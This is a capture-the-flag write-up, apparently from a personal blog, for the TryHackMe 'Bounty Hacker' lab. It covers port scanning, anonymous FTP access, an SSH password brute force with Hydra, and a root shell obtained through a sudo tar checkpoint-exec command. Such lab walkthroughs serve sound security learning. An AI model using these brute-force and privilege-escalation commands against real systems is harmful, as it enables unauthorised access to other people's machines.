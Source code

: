 ```yaml
---
title: Bounty Hacker
tags: [TryHackMe, Facile, Bruteforce]
style: outline
color: danger
modified: 2024-08-26
comments: false
description: Une box particulièrement facile pour débuter
---
```


# TryHackMe: Bounty Hacker <!-- omit in toc -->

![box image](https://tryhackme-images.s3.amazonaws.com/room-icons/9ad38a2cc31d6ae0030c888aca7fe646.jpeg)
![Easy](https://img.shields.io/badge/Difficulty-Easy-Green?logo=tryhackme)

>All the important informations like usernames, passwords, and flags will be  redacted so everybody can take the challenge. Have fun!

## Table of Content <!-- omit in toc -->

* [1. Enumeration](#1-enumeration)
* [2. The FTP Server](#2-the-ftp-server)
* [3. Bruteforce SSH with Hydra](#3-bruteforce-ssh-with-hydra)
* [4. Connection to the server](#4-connection-to-the-server)
  * [4.1. User flag](#41-user-flag)
  * [4.2. Root access](#42-root-access)

---

## 1. Enumeration

The first task of this box is to find open port. So let's run `nmap`.

```bash
$ nmap -T4 -A 10.10.xx.xx 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-20 11:59 CET
Nmap scan report for 10.10.xx.xx
Host is up (0.042s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.63.xxx
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.96 seconds
```

We found a FTP server with anonymous login allowed on port 21, a SSH server on port 22, and an Apache web server on port 80.

The web server allows us to understand the story of our character. Nothing useful for the next steps.

## 2. The FTP Server

Let's check what we can find in the FTP server.

```bash
$ ftp anonymous@10.10.xx.xx  
Connected to 10.10.xx.xx.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

We can download the files with the `get <file>` command.

If we open the `task.txt` file, we can find the name required for to answer the first question of the box

```bash
$ cat task.txt    
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

[redacted]
```

The other document looks like a passwords file. Maybe we can use it to perform some bruteforce attack on the SSH server.

```bash
$ head -n 5 locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
```

## 3. Bruteforce SSH with Hydra

Now we have a potential username within the `task.txt` file and what might be a passwords file, let's check if we can find the right password.

```bash
$ hydra -l [redacted] -P locks.txt 10.10.xx.xx ssh   
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-20 12:24:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.xx.xx:22/
[22][ssh] host: 10.10.xx.xx   login: [redacted]   password: [redacted]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-20 12:24:27
```

We have a match! Now we can access the machine via SSH

## 4. Connection to the server

### 4.1. User flag

```bash
$ ssh [redacted]@10.10.xx.xx
[redacted]@10.10.xx.xx's password: 
[redacted for brevity]
[redacted]@bountyhacker:~/Desktop$ ls -hl
total 4.0K
-rw-rw-r-- 1 [redacted] [redacted] 21 Jun  7  2020 user.txt
[redacted]@bountyhacker:~/Desktop$ cat user.txt 
[redacted]
```

The user flag can easily be found on the user desktop. Now let's escalate our privileges.

### 4.2. Root access

```bash
[redacted]@bountyhacker:~/Desktop$ sudo -l
[sudo] password for [redacted]: 
Matching Defaults entries for [redacted] on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User [redacted] may run the following commands on bountyhacker:
    (root) /bin/tar
```

The user has the ability to use the command `/bin/tar` as sudo user. The [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo) website will help us taking advantage of this privilege.

```bash
[redacted]@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/' from member names
root@bountyhacker:~/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
```

We got the root shell with the command we found! Now we are close to find the root flag.

```bash
root@bountyhacker:~# cd /root
root@bountyhacker:/root# cd ~/Desktop/
root@bountyhacker:~/Desktop# cd /root
root@bountyhacker:/root# ls -hl
total 4.0K
-rw-r--r-- 1 root root 19 Jun  7  2020 root.txt
root@bountyhacker:/root# cat root.txt 
[redacted]
```
